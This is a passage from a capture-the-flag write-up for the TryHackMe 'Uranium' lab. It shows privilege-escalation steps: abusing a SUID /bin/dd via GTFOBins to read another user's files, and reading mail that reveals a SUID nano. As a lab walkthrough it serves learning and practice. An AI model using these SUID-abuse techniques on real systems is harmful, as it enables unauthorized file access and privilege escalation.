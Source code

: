 I'm `kral4`!

**user2.txt:**
```shell
kral4@uranium:~$ cat /home/kral4/user_2.txt 
thm{Redacted}
```

### kral4 to root

**According to the enumeration result in user `hakanbey` session, we found `/bin/dd` binary has a SUID sticky bit, and it's owned by user `web`:**
```shell
kral4@uranium:~$ ls -lah /bin/dd
-rwsr-x--- 1 web kral4 75K Apr 23  2021 /bin/dd
```

That being said, we could escalate our privilege to user `web`!

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/dd/#suid), we can write and read any file as user `web`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217161627.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217162622.png)

**web_flag.txt:**
```shell
kral4@uranium:~$ /bin/dd if=/var/www/html/web_flag.txt
thm{Redacted}
[...]
```

However, there's nothing we can do to escalate privilege to user `web` beside reading the flag...

**In `/var/mail`, we can see there are 2 mail files:**
```shell
kral4@uranium:~$ ls -lah /var/mail/
total 16K
drwxrwsr-x  2 root     mail 4.0K Feb 17 08:26 .
drwxr-xr-x 14 root     root 4.0K Apr  9  2021 ..
-rw-------  1 hakanbey mail  938 Feb 17 08:26 hakanbey
-rw-------  1 kral4    mail 1.1K Apr 24  2021 kral4
```

**Let's read `kral4`'s mail!**
```shell
kral4@uranium:~$ cat /var/mail/kral4 
[...]
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
[...]
I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.
[...]
```
